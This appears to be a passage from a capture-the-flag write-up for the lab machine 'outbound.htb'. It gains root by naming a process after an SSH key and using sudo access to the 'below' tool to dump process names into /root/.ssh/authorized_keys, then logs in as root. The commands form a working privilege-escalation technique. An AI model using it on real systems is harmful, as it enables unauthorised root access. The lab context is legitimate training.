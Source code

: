 
This looks like I can print processes, I can probably name a process! But can I get the output to just be what I need to be a parsable config file?


```python
print(jacob_outbound.exec("sudo below dump process --begin now --fields cmdline | grep -v '?' | tail -n 10"))
```

    dovecot/anvil                                      
    dovecot/log                                        
    dovecot/config                                     
    dovecot/stats                                      
    dovecot/auth                                       
    php-fpm: pool www                                  
    sleep 60                                           
    sshd: jacob [priv]                                 
    sshd: jacob


This looks super promising. Now, when we can't garble files to get what we want, sometimes we can use something like log file writing to invoke execution. However, I don't have any way to execute the file I will be writing to. However, I do have an SSH key, and /root/.ssh/authorized_keys is a pretty handy file to have write access to when I want to get in as root. 

The final step, then, will be to name a process with my ssh key, and write the output to that file. The config file can be mostly garbled as long as there's a newline with my key in it near the beginning.


```python
# Copy over a binary that helpfully lets me run as long as I want it to
jacob_outbound.exec("cp /bin/sleep ~/'ssh-ed25519 AAAAC3NzaC1lZDI<snip>dKr58BTNzZv'")
# Lets add the path to the binary to the PATH so I can run it without specifying the full path
jacob_outbound.exec("echo 'export PATH=/home/jacob:$PATH' >> ~/.bashrc")
# Now I run the new binary with some realistic sleep number to keep it running long enough for me to dump the log.
jacob_outbound.exec("'ssh-ed25519 AAAAC3Nz<snip>dKr58BTNzZv' 100 &")
# Finally, dump the log into the authorized_keys file. Here I also must specify something other than the default so my cmdline field isn't truncated. TSV doesn't have any extra mess to worry about so I use this.
jacob_outbound.exec("sudo below dump process --begin now --fields cmdline -O tsv -o /root/.ssh/authorized_keys")
```




    ''



Hopefully the line lines up properly and we can log in..


```python
root_outbound = ssh("outbound.htb", 22, "root", key_file="./id_ed25519")
print(root_outbound.exec("whoami; cat root.txt"))
```
